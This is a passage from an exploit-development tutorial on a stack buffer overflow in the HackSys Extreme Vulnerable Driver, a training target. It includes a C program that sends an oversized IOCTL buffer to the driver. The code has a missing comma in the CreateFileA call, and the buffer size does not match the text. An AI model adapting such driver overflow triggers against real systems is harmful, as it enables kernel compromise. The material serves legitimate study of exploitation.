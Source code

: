<hr>

# Dynamic Analysis
Now that we've found the vulnerability statically its time to try and prove that it is exploitable - to do that we're going to use WinDbg to step through the vulnerable function and verify that we can send a buffer greater than 2048 bytes and get stack control as a result.

## Interacting with the Driver
In order to begin dynamic analysis we'll need to build a way of interacting with the driver and sending it IOCTLs. You can use any language to do this but we're going to use C because:

1. It is really nice to use when working with Windows 
2. Python3 ctypes absolutely sucks for this kind of thing
3. Exploit portability

The below code block is a very simple C program to interact with the driver - if you're unfamilar with the Windows API then the two most important sections of code to be aware of are [`CreateFileA`](https://docs.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-createfilea) and [`DeviceIoControl`](https://docs.microsoft.com/en-us/windows/win32/api/ioapiset/nf-ioapiset-deviceiocontrol).

```C
#include <Windows.h>
#include <stdio.h>

#define DRIVER "\\\\.\\HacksysExtremeVulnerableDriver"

void exploit()
{
    HANDLE DriverHandle;
    DWORD  OldProtect;
    char   buffer[2048] = {0};

    printf("[*] Preparing exploit buffer!\n");
    /* Fill exploit buffer with As. */
    memset(buffer, 0x41, sizeof(buffer));

    printf("[*] Opening handle to %s\n", DRIVER);
    DriverHandle = CreateFileA(DRIVER, GENERIC_READ | GENERIC_WRITE, 0, NULL OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
    if (DriverHandle == INVALID_HANDLE_VALUE) 
    {
        printf("[!] FATAL: Could not open HEVD handle!\n");
        return;
    }

    if (!DeviceIoControl(DriverHandle, 0x222003, buffer, sizeof(buffer), NULL, 0, NULL, NULL))
    {
        printf("[!] FATAL: Error sending IOCTL to driver!\n");
        return;
    }
}

int main()
{
    printf("[+] HEVD: Stack Buffer Overflow!\n");
    exploit();

    return 0;
}
```


[^1]: In the future I will publish an article which explains that process in more detail. However in this example we're just going to use `EnumDeviceDrivers`.